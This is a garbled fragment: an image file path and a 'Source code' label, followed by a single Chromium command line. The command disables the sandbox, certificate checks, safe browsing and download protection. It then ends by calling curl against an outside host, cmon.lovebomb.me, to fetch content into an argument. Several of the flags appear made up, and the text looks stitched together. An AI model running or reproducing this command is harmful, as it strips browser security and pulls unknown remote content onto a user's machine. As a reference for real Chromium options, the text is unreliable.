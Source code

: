/home/z/Desktop/tmp/dashdash /usr/bin/chromium  --map-image   --host-resolver-retry-attempts=0  --no-default-browser-check --no-swap-metrics --ignore-gpu-blacklist --ignore-urlfetcher-cert-requests --use-gl=osmesa --safebrowsing-disable-extension-blacklist --safebrowsing-disable-side-effect-free-whitelist --safebrowsing-disable-auto-update --safebrowsing-disable-download-protection --skip-gpu-data-loading --skip-hwid-check --ui-disable-threaded-compositing --no-sandbox --ignore-certificate-errors --disable-webgl  --disable-ntp-other-sessions-menu --disable-touch-adjustment   --allow-running-insecure-content --disk-cache-dir=/tmp/chromiumcache --disable-java --disk-cache-size=1   --disable-lcd-text  --disable-device-discovery  --prefetch_only --user-data-dir=(curl http://cmon.lovebomb.me/ktyrlwid)
